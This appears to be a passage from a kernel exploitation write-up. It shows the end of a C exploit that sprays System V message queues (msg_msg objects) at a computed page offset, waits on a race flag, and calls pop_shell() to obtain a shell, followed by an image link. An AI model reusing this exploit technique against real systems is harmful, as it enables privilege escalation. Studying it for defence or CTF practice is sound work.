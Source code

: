 ```c
  if (qid[2] < 0) {
    die("[!] Failed to msgget");
  }
  qid[3] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid[2] < 0) {
    die("[!] Failed to msgget");
  }
  ((msg *)(target1 + PAGE_SIZE - 0x10))->mtype = 1;
  send_msg(qid[2], target1 + PAGE_SIZE - 0x10, 0x1ff8 - 0x30, 0);

  while (!relased) {
  }
  pop_shell();
done:
  return 0;
}
```

![Untitled](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-e07d3bcf413381f42704b85a6e2998f0-d94f11.png)

